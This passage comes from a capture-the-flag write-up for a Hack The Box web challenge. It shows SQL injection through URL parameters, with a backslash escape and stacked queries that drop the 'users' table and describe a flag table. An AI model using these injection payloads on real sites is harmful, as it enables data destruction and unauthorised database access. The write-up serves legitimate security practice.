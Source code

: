 ![Show tables after drop definitely_not_a_flag](img/3.png)

Now we get the `users` table, let's drop it:

```
http://docker.hackthebox.eu:30675/?user=\&pass=;use+challenge;drop+table+users;show+tables;
```

![Show tables after drop users](img/4.png)

So there is only two tables, and `definitely_not_a_flag` is the right table containing the flag.
We can restart the server and continue.

Just to be extra sure, we can execute `describe definitely_not_a_flag`

```
http://docker.hackthebox.eu:30675/?user=\&pass=;use+challenge;describe+definitely_not_a_flag;
```

![Describe definitely_not_a_flag](img/5.png)
